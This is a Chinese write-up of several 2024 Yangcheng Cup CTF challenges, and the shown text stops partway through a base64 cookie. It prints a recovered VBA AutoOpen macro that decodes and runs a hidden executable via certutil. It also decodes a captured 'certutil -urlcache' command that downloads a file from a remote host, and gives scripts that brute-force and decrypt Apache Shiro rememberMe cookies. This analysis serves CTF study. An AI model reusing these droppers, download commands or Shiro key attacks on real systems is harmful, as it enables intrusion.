




太卷了！然而我只是来看看，觉得有意思就做做，不想做的题就不做。本来我还有正事要忙（比如准备 BaseCTF 第二周直播讲题），结果感觉有几个题都挺好玩的，就忙里偷闲做了下。（比五月连续几个星期的烂透了的省赛和国赛好。）是为数不多让我想写一篇 WP 的比赛（虽然根本打不进决赛）。

# 数据安全2

[附件下载](https://files.xinshi.fun/yangcheng-2024/data.zip)

分享一下我的脚本，应该没有比我写得更简单的了。

既然 pcapng 文件未压缩，我直接不管流量分组，直接从里面正则提取字符串，然后直接把 JSON 键值对的值一次性赋值给六个变量。

本来很喜欢 Python 的，现在更喜欢了。

```python
import re
import json
import string


DEBUG = False

PHONE_PREFIX = [
    734, 735, 736, 737, 738, 739, 747, 748, 750, 751, 752, 757, 758, 759, 772,
    778, 782, 783, 784, 787, 788, 795, 798, 730, 731, 732, 740, 745, 746, 755,
    756, 766, 767, 771, 775, 776, 785, 786, 796, 733, 749, 753, 773, 774, 777,
    780, 781, 789, 790, 791, 793, 799
]
WEIGHTS = [7, 9, 10, 5, 8, 4, 2, 1, 6, 3, 7, 9, 10, 5, 8, 4, 2]


fout = open('result.csv', 'w', encoding='utf-8')
fout.write('username,name,sex,birth,idcard,phone\n')

def wrong(line, reason):
    if DEBUG:
        fout.write(reason + ',')
    line = [f'"{i}"' if ',' in i else i for i in line]
    fout.write(','.join(line) + '\n')


with open('data.pcapng', 'r', encoding='latin1') as f:
    data = f.read()

strings = re.findall(r'\{"username": ".*", "name": ".*", "sex": ".*", "birth": ".*", "idcard": ".*", "phone": "\d*"\}', data)
print(len(strings))  # 8000

for item in strings:
    line = json.loads(item).values()
    (username, name, sex, birth, idcard, phone) = line
    
    if any(i not in string.ascii_lowercase + string.ascii_uppercase + string.digits for i in username):
        wrong(line, '用户名不全为数字字母')
    elif not all('\u4e00' <= char <= '\u9fff' for char in name):
        wrong(line, '姓名不全为汉字')
    elif len(idcard) != 18 or not all(i in string.digits for i in idcard[:17]):
        wrong(line, '身份证号不为18位数字')
    elif sex != ('男' if int(idcard[16]) % 2 == 1 else '女'):
        wrong(line, '性别与身份证号不符')
    elif birth != idcard[6:14]:
        wrong(line, '生日与身份证号不符')
    elif len(phone) != 11 \
        or not all(i in string.digits for i in phone) \
        or int(phone[:3]) not in PHONE_PREFIX:
            wrong(line, '手机号不为符合前缀的11位数字')
    elif '10X98765432'[sum(int(idcard[i]) * WEIGHTS[i] for i in range(17)) % 11] != idcard[17]:
        wrong(line, '身份证号校验位错误')

fout.close()
```

# Reverse - docCrack

[附件下载](https://files.xinshi.fun/yangcheng-2024/docCrack.zip)

拆开 Office 压缩包，除了 `vbaProject.bin` 以外没什么特别的了。

VBA 参考：

[VBA脚本文件重定向](https://mp.weixin.qq.com/s/QbX84NmVXNdV42W4PkNl_A)

[VBA隐藏技术stomping](https://mp.weixin.qq.com/s/VmVdvD9c6p9Hdo9MZiIyZg)

[VBA脚本终章编译器崩溃](https://mp.weixin.qq.com/s/d2mULeMn9dft68hzZC3-yQ)

用 oletools 反编译 P-code

```bash
pip install -U oletools[full]
olevba -c protected_secret.docm > code.vbs
```

有时候还需要 olevba 的其他功能，这题不需要，得到

```vb
olevba 0.60.2 on Python 3.12.4 - http://decalage.info/python/oletools
===============================================================================
FILE: D:\CTF\event\20240827-YangCheng\reverse\docCrack\protected_secret.docm
Type: OpenXML
WARNING  For now, VBA stomping cannot be detected for files in memory
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls 
in file: word/vbaProject.bin - OLE stream: 'VBA/ThisDocument'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Sub rickyroll()

Debug.Print "Never Gonna Give U Up~~~"


Debug.Print "Never Gonna Give U Up~~~"

' <省略>

Debug.Print "Never Gonna Give U Up~~~"

End Sub

Sub AutoOpen()
    Set fso = CreateObject("Scripting.FileSystemObject")
    Set objShell = CreateObject("WScript.Shell")
    
    isContinue = 7
    temp = MsgBox("I?am???Vcke?!!!_I???m??Hac?er??!!???_am_Hac?er!!!_I_a?_????ok?r!!!", vbCritical, "Hacked_by_??????")
    Do
        inflag = InputBox("Give me your flag", "Hacked_by_??????")
        If inflag = "" Then
            inflag = "noflag"
        End If
        Result = ""
        For i = 1 To Len(inflag)
            res = Chr(Asc(Mid(inflag, i, 1)) Xor 7)

            Result = Result & res
        Next i

        FOwoRiFKKMMDhtxiUfJDWzaqNJrPZwASlDxnERT = "TXpNek16TXpNek16TXpFaUQ3Q2pva2VyLy8waUR4Q2pEek16TXpNek16TXpNek16TXpNek16TXpNU0lQc1NPaW82di8vU0lsRUpDam8rK3ovLzBpTEFFaUpSQ1F3Nkx6cy8vK0xBSWxFSkNCTWkwUWtLRWlMVkNRd2kwd2tJT2hPN1AvL1NJUEVTTVBNek16TXpNek16TXpNek16TXpNek16TXhJZyt3b3VRRUFBQURvayt2Ly8waUR4Q2pEek16TXpNek16TXpNek16TXpFaUQ3RGpvS092Ly80bEVKQ0RvUyt6Ly80dE1KQ0NKQ0VpRHhEakR6TXpNek16TXpNek16TXpNek16TXpNek16RWlEN0Nqb1Rldi8vNHZJNkhYcC8vOUlnOFFvdzh6TXpNek16TXpNek16TVNJbE1KQWhJZyt3bzZNTDgvLzlJZzhRb3c4ek16TXpNek16TXpNek16TXhJZyt4WWlVd2tLRWlOUkNSZ1NJMU1KQ0JJaVVRa01NWkVKR0FBeDBRa0lBRVFBQURvdHdjQUFJQjhKR0FBRDVYQVNJUEVXTVBNek16TXpNek16TXpNek16TXpNek16TXpNek16TXpNek16RWlEN0ZpSlRDUW9TSTFFSkdCSWpVd2tJRWlKUkNRNHhrUWtZQURIUkNRZ0FoQUFBSWxVSkN4TWlVUWtNRXlKVENSQTZGa0hBQUNBZkNSZ0FBK1Z3RWlEeEZqRHpNek16TXpNek16TXpNek16TXpNek16TXpNek16TXpNek16TXpFQlZWbGRCVmtpQjdQZ0JBQUJJaXdXRXFBQUFTRFBFU0ltRUpPQUJBQUNMUFpPb0FBQkZpL0JJaS9KSWkrbUQvLzhQaEFFQkFBQkloZEoxRjBTTlFn"
        KJApECBsBygCpaCPqkHESDxewQKrYbmg = "QUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFB"


' <省略>


        tempPath = ThisDocument.Path & "\temp1"
        Set tempfile = fso.CreateTextFile(tempPath, True)
        fso.GetFile(tempPath).Attributes = 2
        tempfile.WriteLine xpkdb
        tempfile.Close
        
        batPath = ThisDocument.Path & "\temp.bat"
        Set batFile = fso.CreateTextFile(batPath, True)
        fso.GetFile(batPath).Attributes = 2
        batFile.WriteLine "@echo off"
        batFile.WriteLine "cd /d " & ThisDocument.Path
        batFile.WriteLine "certutil -decode temp1 temp|certutil -decode temp temp.exe"
        batFile.WriteLine "del temp"
        batFile.WriteLine "temp.exe " & """" & Result & """"
        batFile.WriteLine "del temp.exe"
        batFile.Close
        Set objExec = objShell.Exec(batPath)
        Set objStdOut = objExec.StdOut
        Do While Not objStdOut.AtEndOfStream
            output = Trim(objStdOut.ReadLine)
        Loop
        output = Left(output, Len(output))
        StartTime = Timer
        Do While Timer < StartTime + 1
            DoEvents
        Loop
        fso.DeleteFile batPath
        fso.DeleteFile tempPath
    
        If output = "good" Then
            temp = MsgBox("good!!!", , "congratulations!!!")
            Exit Do
        Else
            temp = MsgBox("Sorry, U are wrong!!!", , "Hacked_by_??????")
            isContinue = MsgBox("Continue?", vbYesNo + vbQuestion, "Warning")
        End If
    Loop While isContinue = 6
End Sub


Sub rickyrolls()

Debug.Print "Never Gonna Give U Up~~~"


Debug.Print "Never Gonna Give U Up~~~"

' <省略>

Debug.Print "Never Gonna Give U Up~~~"

End Sub
```

稍微看一下中间的 AutoOpen 即启用宏自动执行的子例程，逻辑大致如下（伪代码）：

```plain
Result: String = flag.foreach(i => i ^ 7)
xpkdb = 将许多 Base64 字符串拼接起来
CreateTextFile('.\temp1').WriteLine(xpkdb)
certutil -decode temp1 temp|certutil -decode temp temp.exe
(temp.exe "Result").stdout == "good"
```

小技巧：为了得到 exe 文件，VB 代码片段保存为 .vbs 文件，注释掉无关的行，改一下路径，双击即可解释执行

```vb
' Sub AutoOpen()
    Set fso = CreateObject("Scripting.FileSystemObject")
    Set objShell = CreateObject("WScript.Shell")
    
    ' isContinue = 7
    ' temp = MsgBox("I?am???Vcke?!!!_I???m??Hac?er??!!???_am_Hac?er!!!_I_a?_????ok?r!!!", vbCritical, "Hacked_by_??????")
    ' Do
    '     inflag = InputBox("Give me your flag", "Hacked_by_??????")
    '     If inflag = "" Then
    '         inflag = "noflag"
    '     End If
    '     Result = ""
    '     For i = 1 To Len(inflag)
    '         res = Chr(Asc(Mid(inflag, i, 1)) Xor 7)

    '         Result = Result & res
    '     Next i

        FOwoRiFKKMMDhtxiUfJDWzaqNJrPZwASlDxnERT = "TXpNek16TXpNek16TXpFaUQ3Q2pva2VyLy8waUR4Q2pEek16TXpNek16TXpNek16TXpNek16TXpNU0lQc1NPaW82di8vU0lsRUpDam8rK3ovLzBpTEFFaUpSQ1F3Nkx6cy8vK0xBSWxFSkNCTWkwUWtLRWlMVkNRd2kwd2tJT2hPN1AvL1NJUEVTTVBNek16TXpNek16TXpNek16TXpNek16TXhJZyt3b3VRRUFBQURvayt2Ly8waUR4Q2pEek16TXpNek16TXpNek16TXpFaUQ3RGpvS092Ly80bEVKQ0RvUyt6Ly80dE1KQ0NKQ0VpRHhEakR6TXpNek16TXpNek16TXpNek16TXpNek16RWlEN0Nqb1Rldi8vNHZJNkhYcC8vOUlnOFFvdzh6TXpNek16TXpNek16TVNJbE1KQWhJZyt3bzZNTDgvLzlJZzhRb3c4ek16TXpNek16TXpNek16TXhJZyt4WWlVd2tLRWlOUkNSZ1NJMU1KQ0JJaVVRa01NWkVKR0FBeDBRa0lBRVFBQURvdHdjQUFJQjhKR0FBRDVYQVNJUEVXTVBNek16TXpNek16TXpNek16TXpNek16TXpNek16TXpNek16RWlEN0ZpSlRDUW9TSTFFSkdCSWpVd2tJRWlKUkNRNHhrUWtZQURIUkNRZ0FoQUFBSWxVSkN4TWlVUWtNRXlKVENSQTZGa0hBQUNBZkNSZ0FBK1Z3RWlEeEZqRHpNek16TXpNek16TXpNek16TXpNek16TXpNek16TXpNek16TXpFQlZWbGRCVmtpQjdQZ0JBQUJJaXdXRXFBQUFTRFBFU0ltRUpPQUJBQUNMUFpPb0FBQkZpL0JJaS9KSWkrbUQvLzhQaEFFQkFBQkloZEoxRjBTTlFn"

        ' 省略，可从上面的代码块复制

        xpkdb = dWPtWzWvKrZRFrsAWZMGNjZQbCrgAImKXVUkOykXWeRltpUU + AMaKeZzlhAtdNANKAKwMNbKEKUWuQVZQbbCJIUog + BvEKpalonhsRIgbPkYPYbsbQGzIzvPitapncgtGKIo + yBILPYnXCUApVHExOtpKlnfTkVfexwgrFQOFIveA + pqdgalQAZJKIDySPundFqdITahrgAYveJXfZCOUHWnUDKXZwZU + pErQJcjFIvYQeIehtTPMaOgEwFvvjnaTkabtJDvpHbWG + QmLHKhwBebnYaryyPsFeBassnVEjIoURcqNseXyjyMdcDfFnag

        tempPath = "D:\你的文件绝对路径\temp1"
        Set tempfile = fso.CreateTextFile(tempPath, True)
        fso.GetFile(tempPath).Attributes = 2
        tempfile.WriteLine xpkdb
        tempfile.Close
        
        batPath = "D:\你的文件绝对路径\temp.bat"
        Set batFile = fso.CreateTextFile(batPath, True)
        fso.GetFile(batPath).Attributes = 2
        batFile.WriteLine "@echo off"
        ' batFile.WriteLine "cd /d " & ThisDocument.Path
        batFile.WriteLine "certutil -decode temp1 temp|certutil -decode temp temp.exe"
        ' batFile.WriteLine "del temp"
        ' batFile.WriteLine "temp.exe " & """" & Result & """"
        ' batFile.WriteLine "del temp.exe"
        batFile.Close
        Set objExec = objShell.Exec(batPath)
'         Set objStdOut = objExec.StdOut
'         Do While Not objStdOut.AtEndOfStream
'             output = Trim(objStdOut.ReadLine)
'         Loop
'         output = Left(output, Len(output))
'         StartTime = Timer
'         Do While Timer < StartTime + 1
'             DoEvents
'         Loop
'         fso.DeleteFile batPath
'         fso.DeleteFile tempPath
    
'         If output = "good" Then
'             temp = MsgBox("good!!!", , "congratulations!!!")
'             Exit Do
'         Else
'             temp = MsgBox("Sorry, U are wrong!!!", , "Hacked_by_??????")
'             isContinue = MsgBox("Continue?", vbYesNo + vbQuestion, "Warning")
'         End If
'     Loop While isContinue = 6
' End Sub
```

exe 文件中只有每个字符左移 6 位然后比对。逆运算：

```python
v7 = [0] * 54

v7[0] = 4288;
v7[1] = 4480;
v7[2] = 5376;
v7[3] = 4352;
v7[4] = 5312;
v7[5] = 4160;
v7[6] = 7936;
v7[7] = 5184;
v7[8] = 6464;
v7[9] = 6528;
v7[10] = 5632;
v7[11] = 3456;
v7[12] = 7424;
v7[13] = 5632;
v7[14] = 6336;
v7[15] = 6528;
v7[16] = 6720;
v7[17] = 6144;
v7[18] = 6272;
v7[19] = 7488;
v7[20] = 6656;
v7[21] = 7296;
v7[22] = 7424;
v7[23] = 2432;
v7[24] = 2432;
v7[25] = 2432;
v7[26] = 5632;
v7[27] = 4416;
v7[28] = 3456;
v7[29] = 7168;
v7[30] = 6528;
v7[31] = 7488;
v7[32] = 6272;
v7[33] = 5632;
v7[34] = 3520;
v7[35] = 6208;
v7[36] = 5632;
v7[37] = 4736;
v7[38] = 6528;
v7[39] = 6400;
v7[40] = 7488;
v7[41] = 3520;
v7[42] = 5632;
v7[43] = 5184;
v7[44] = 3456;
v7[45] = 7488;
v7[46] = 7296;
v7[47] = 3200;
v7[48] = 6272;
v7[49] = 7424;
v7[50] = 2432;
v7[51] = 2432;
v7[52] = 2432;
v7[53] = 7808;

print(bytes([(i>>6)^7 for i in v7]))
```

🚩 `DASCTF{Vba_1s_dangerous!!!_B1ware_0f_Macr0_V1ru5es!!!}`

# Misc - miaoro

[附件下载](https://files.xinshi.fun/yangcheng-2024/miaoro.zip)

HTTP 流13 首部行

`GWHT: YCB2024 Y2VydHV0aWwgLXVybGNhY2hlIC1mICJodHRwOi8vMTkyLjE2OC4xLjM6ODAxL3NlY3JldC50eHQi`

Base64得

`certutil -urlcache -f "http://192.168.1.3:801/secret.txt"`

响应Base64得（GBK）

```plain
****  联机  ****
  0000  ...
  c8d8
    0000  30 30 30 30 30 30 30 30  33 36 30 66 30 30 30 30   00000000360f0000
    0010  30 30 36 36 30 30 31 30  30 30 31 30 30 30 30 30   0066001000100000
    0020  30 30 30 30 36 30 35 30  62 34 30 35 30 30 38 30   00006050b4050080
    0030  33 30 35 34 31 34 30 30  31 30 30 30 37 30 39 39   3054140010007099

<省略>

    c8a0  30 30 39 30 30 30 30 30  35 64 31 38 30 30 30 30   009000005d180000
    c8b0  33 36 65 61 64 37 39 63  61 33 66 66 38 35 36 65   36ead79ca3ff856e
    c8c0  65 62 38 61 30 30 33 36  30 30 39 30 30 30 34 31   eb8a003600900041
    c8d0  34 30 33 30 62 34 30 35                            4030b405
CertUtil: -URLCache 命令成功完成。

```

明显 504B0304，提取：

```python
with open('secret.txt', 'r', encoding='gbk') as f:
    with open('out.zip', 'wb') as o:
        o.write(bytes.fromhex(''.join([l.strip()[-16:][::-1].replace(' ', '') for l in f.readlines()[3:-1][::-1]])))
```

HTTP 流10 首部行Base64

`echo Th15_11111111s_pP@sssssw000rd!!!>pass.txt`

解压得 flag2.jpg

修改宽度为 1404



第二部分 flag 是猫猫字母 `EBOFDELQDIAA}`，现在就剩 Cookie 还没看了

HTTP 流4 响应数据中随便选一行

```python
To show some taglibs, here are the roles you have and don't have. Log out and log back in under different user accounts to see different roles.
```

搜索可知是Shiro Quickstart

那么 `Set-Cookie: nekoMiao=nikoMiao;` 就是 `rememberMe=deleteMe` 了

Shiro 加密算法（伪代码）：

```python
key = b64decode(key)
iv = randbytes(16)
mode = CBC
c = b64encode(iv + AESencrypt(m, key, iv, mode))
```

流4是在用 shiro key 字典爆破，找正确的 key 是哪个，`Cookie: nekoMiao=` 对应的是加密后的序列化数据。想也知道第一个试的是 `kPH+bIxk5D2deZiIxcaaaA==`，解密一下果然是。流4爆破好几次结果都是 deleteMe，最后一次不是 deleteMe 了，说明这次用的是正确的 key。



所以我们也去 GitHub 找个 shiro key 字典，看哪个 key 能解密最后一次的 Cookie：

```python
import base64
import Crypto.Cipher.AES

def decrypt(key, data):
    iv = base64.b64decode(data)[:16]
    cipher = Crypto.Cipher.AES.new(key, Crypto.Cipher.AES.MODE_CBC, iv=iv)
    return cipher.decrypt(base64.b64decode(data)[16:])

with open('shiro_key.txt', 'r') as f:
    keys = f.read().splitlines()

data = 'VFbujnrWI5MPfk+L/n8az7jafllg/ctgP+HfJfz5jH5hFD/VOQNUuFbAjo4smrvoaXHxZBpZME/gaxAovyZjf+yZ6nxMynXoK75+vO4biu5YYG+2RTFwNPW57UiK4l0XGyaCklQBYqPu0KSo3Hz9/jf0CrSpwh1SDhs5B3MFsHkLcZq29z/jApyxzhkWssKL'

for key in keys:
    try:
        if b'org.apache.shiro.subject.SimplePrincipalCollection' in decrypt(base64.b64decode(key), data):
            print(key)
    except:
        pass
```

找到 key 是 `MTIzNDU2Nzg5MGFiY2RlZg==`

流6是在试链子，看哪个 EXP 能跑通，使得反序列化后执行首部行 `GWHT: YCB2024` 后面的 Base64 命令。流6的最后一次尝试不是 deleteMe 了，于是之后都用最后这个 Cookie 了。解密它：

```python
import base64
import Crypto.Cipher.AES

def decrypt(key, data):
    iv = base64.b64decode(data)[:16]
    cipher = Crypto.Cipher.AES.new(key, Crypto.Cipher.AES.MODE_CBC, iv=iv)
    return cipher.decrypt(base64.b64decode(data)[16:])

key = b'MTIzNDU2Nzg5MGFiY2RlZg=='

data = 'PGBTg3fqmEIidH1E+Fz7zVBJC4KTR5RmTmyZCUX1g8gK13Bt7GQaFr7Wh1kL+hCDTq9Vff4kcaITiLxPYsj8dCtR2SzEdQeP4jIY2Z3siUdZk2FMeSxEbt/4hzY5bmLUVKQh97Gu948+CKE9RsV+Gf7BltkNXOaim8OCv409wil2Ck4zXO7tnbWOiD6p4ZsQ2hzG8iFl/UlmaqpdUuS49kZ6BDbqp3dYqZ16+u2TNIb/jEkMMVX9X0bn4a9adFzeyCJQAFu0VrgDB/cpyvvwPAmDkKwvBdj8wWSB0ztuo6x+vrOKDNrxLITG0sxKrKlKIsZAt83lCbhiSYd8mgUtPiNkznWYxO07mRaNFWBNiNyGeg0vPNyh/NDF6e0JMkQQ6a77Otq0+Gnx7H/zYTBlxF+Id8b1T2XCQHSfkivOpERR53d23HSTsWeuFZB0Yqq8mgLdfIk7hOYTuTFqwkh0wfguA0gW63ixU8cno/3tP1JJqkcpo81eWhY2O/FPQw3jKyk5MfRE77i4NVtSTzMZ9ebKlYw/2fjPIydKI2nS/vsNGM1ebkKFbmwrdXYaIJIXMXRNEUYRfHOXgYsfQCy0zCgl5Df7BUe9sFY3azs2wS+q2Xo591nX358CsE+mx1Guao0icEcvtEXIrqRM0DWBcdGSkjdEIngr3qMlNUrlECh7fMSW5ThBmnTwqzLZDtxZzAJxQvk1zsuqMa+Uv1hoc0O7n5BrvDEAaiyWJ6Akrlv+bprjhsd0y9V0ugWn6TaIt1t5nr5xQTZQbFH0IpxYqoOpmuVgrVIpqaOXl4O7L/NyQBAZrrDqn5/ic+43MH8S+XwArv56xnbMSUUopwi02/LAQSykmpjuOhLjBD/sV+Faa7M6W+FlbSM3hAo9mAWg3APuBHEOTatRrZDi2KNNWfKN4pThkh2vaxyWmXqBw/s0xZpULD+T04KeaMgNdbtKmmfLou4aQD614KJQMtp2mITKexuyfhraT30LuO6XU1QFd7Gei/FfRE/Jfh6zWXPRln7aVbuoJzmrUPSG8gQlm/Bn6nacE91TAF2QRwOt7dOj3Tifn6wAEAWMhTVWisA6KxXdJWB9UujrEl5JhedC+aaO4Gzsv0JSe/sqGb1b5N9ik6sxBTqPEWCvLLzkcWEMIqRJyWX+gACpyH7ID9UH6/q+fq19s5WQicyuKmO6F3JzbSQ1bTi9ZcnbKBVKmtDFhTPl3ovIyVbT66xU4yQz8x1Wxg6u8zCCop6LKoz2l0X+J2iJRi7pJCOqlkemJCrSkNDb0+Rd+j6w4ysOcRolmKrhSvIJXzBfOqXvdJkRMW/7u4LfBTr0pLdJx3hhvKfgVRNAK0hY4nUrspG3iI06fEpT82tlWYG1YOt/+u2oSzPV3d0IQArSZG4YT6WnbLSpSVjPwSg5wJgo/HSzRKwBISyqi/JIcph+fts4iXiIWfSiFQG7WDvKpT0pwiUumcisZzaEDuaVtziVgHY4PUMWFWDjdbM0I21S6670Yh3HgvPdFEZBKYZH9k1yjx6+hA0n00/kyttVDNqGXjNXcLKjJBYOVS3RAtvsu3H5C4YxuaHjejZtNe2If+EBzVfMg3lkmdvwEkRk8qFuNf/6gJhl0mCozQc4hcdo/YddPCdw3Xz2nqpwCwktKmZ4Cw4wPmNXzFu/nYF2WKi77ix4m/kqdNq+UcOK0Fh6+90wMdLd3o9dCcMcebB4W0Ku0b71icf2Fku1e0KVaPpjstiQjENwBsQITTLb9NdX7pZ1EZDzmjoGAiEjuqpLeOBbrT6jqjl63QGXtgK8bKQDsPz89o6N1VCQnGrZ+Ld3Q0fMG5XsqGAG6qxWYLfwOAmccLF+L7r/UB2WiljDOu9PIzs3bTRmUYTA0IKjIzkIQdT/sqatU6m6MJS1NtUnw9FrGoo1Q0FFjw6ZGABsdzFtqVurzO0AURFytfONcNPXZXglgh4Mp//vPnNG1zN/KmSZGFhwrj2fKFmHfxKtlOtthcee9kUTOCBu8jQ/oaGKkCwNHvv6B44cn7AIERbbeDT+gJVHsspDLjKpVhFyGhi4ssUl2erofJNE0i3